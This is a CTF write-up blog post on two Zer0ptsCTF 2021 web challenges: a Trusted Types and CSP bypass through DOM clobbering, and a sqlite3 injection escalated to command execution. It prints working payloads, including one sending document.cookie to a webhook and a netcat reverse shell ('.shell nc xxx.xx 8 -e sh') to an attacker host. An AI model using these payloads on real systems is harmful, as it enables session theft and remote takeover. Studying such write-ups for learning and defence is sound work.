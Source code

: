 ```yaml
---
layout: post
title: Zer0ptsCTF - Web Exploitation
excerpt: "
Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. "
categories: [writeups, Zer0ptsCTF'21]
tags: [web]
---
```


Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. 

#### Simple Blog
```
Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
```

This challenge gives us a really obvious HTML injection marker and we have to find some way to convert that to full XSS. As it is PHP wtih no filtering, we see that the following will let us insert any HTML by simply closing out the tag. i.e `"><h1>test</h1>`.
```php
<link  rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
<link  rel="stylesheet" href="/css/style.css">
```

The much more interesting function and what we have to bypass is the CSP which is given and a trusted types from the init function which is implemented through a polyfill. The CSP is implemented and trusted types are implemented via the following HTML.`
```html
<meta  http-equiv="Content-Security-Policy"  content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
<script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

The code which actually implements trustedTypes is the following.
```javascript
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces `<>` and when a new script is created the src url is passed through the `createScriptURL` function.

Now let's think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with `?callback=ourpayload` because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the `?callback` parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won't be able to call the JSONP endpoint. However, if we can make `!trustedTypes.defaultPolicy` to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to `jsonp('/api.php', window.callback);` which will let us create a script element with `?callback=ourpayload`. In order to do this 1 level clobber, I used the following format which will get rid of the automatic `https://` appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup [here](https://hackmd.io/@st98/S1z9qV1X_) and allows executing payloads longer than 20 characters. What we can do is instead of putting our payload in the callback, we create a script tag using the `data:` uri using the `jsonp()` function.

The payload passed to the callback parameter would look like this.
`<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this.
`<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.
```
http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>
```

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.
```
location='https://webhook.site/asdf/'+document.cookie
```

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.

#### Baby SQLi
```
Just login as admin.
```

This challenge was based around sql injection but in a very interesting and different manner. The core functionality was just a login page with a sqlite database backend. The most important code segments are the following.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

def auth():
    # snip
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    # snip
```

Summarizing the code, our username is passed to `sqlite3_escape`, formatted into a query, and sent to `sqlite3_query`. One thing to note here is that the escaping function adds a `\` infront of the block listed characters.  In addition, the way the query is ran is not through a sqlite3 library but rather with a Process.

Let's break this down one at a time. First, how are we even able to inject SQL? After a bit of googling, we found that sqlite escapes characters via double quotations, i.e `"a escaped "" wow"`. This will properly escape the quotation mark. However, as we looked at earlier the `sqlite3_escape` method adds backslashes. 

With this in mind, we are now able to craft queries like the following.

`SELECT * FROM users WHERE username="alice\"" AND password="asdf"`

This doesn't properly escape the quotation mark, rather it just throws an error. Now we can inject a semicolon and exit the statement! If our payload is `";`, our query now becomes the following.

`SELECT * FROM users WHERE username="alice\";" AND password="asdf"`

To make this exploitable, we used some attributes from the allow list. Two interesting things is that all whitespace (spaces, tabs, newlines) are allowed and periods (.) are allowed. We know that sqlite has special commands for statements that start with periods so we can think about how to exploit this.

What we ended up doing was adding a newline, calling the .shell function with arguments we wanted, and adding a final newline to get rid of the junk. This works because a newline is interpreted as a new command to the process. Although individual lines may error, the process is still running and thus our commands would still go through.

Our final payload was the following and has some tricks to make it smaller to reach the character limit where xxx.xx is your domain.

`";\n.shell nc xxx.xx 8 -e sh\n`

There are some things to address about our payload. First, why are we able to include a `-e` when it would become `\-e` and not work? This was discovered during testing by a teammate but we found that the `.shell` command actually expands the backslashes. This means it will actually become  `-e` when the command is executed.

Second, there are some optimizations to the nc reverse shell. The two main things were using a small port (8) and using `sh` instead of `/bin/sh`. Port 8 works but the listener must be run with sudo due to it not being a typically used port. The optimization to use `sh` came from local testing. I cannot say how important local testing is! If you are given the docker environment, like many of the zer0pts challenges were, always run the docker and try stuff out locally. You never know what you may find.

With this final payload, we are able to get a shell on the system and cat index.html for the flag. The description was a bit misleading as we needed RCE not just a typical sql injection but a very interesting challenge overall.
